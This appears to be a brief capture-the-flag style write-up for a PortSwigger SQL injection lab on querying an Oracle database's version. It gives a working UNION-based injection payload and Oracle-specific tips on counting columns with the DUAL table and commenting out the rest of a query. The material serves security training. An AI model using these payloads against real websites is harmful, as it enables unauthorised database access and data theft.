

# [SQLi: DB type/version on Oracle](https://portswigger.net/web-security/sql-injection/examining-the-database/lab-querying-database-version-oracle)

Easy injection. Payload: `/filter?category=Gifts' union all select null,banner from v$version--`

Notes:

- Every `SELECT` on Oracle must use `FROM`, so you can't just do `' UNION SELECT NULL,NULL,…--` to determine the number of columns.
- Every Oracle DB has a `DUAL` table that can be used, like: `' UNION SELECT NULL,NULL FROM DUAL--`
- A trailing `--` is enough to comment out the remainder of the line on Oracle, unlike MySQL which needs it to be followed by a space.
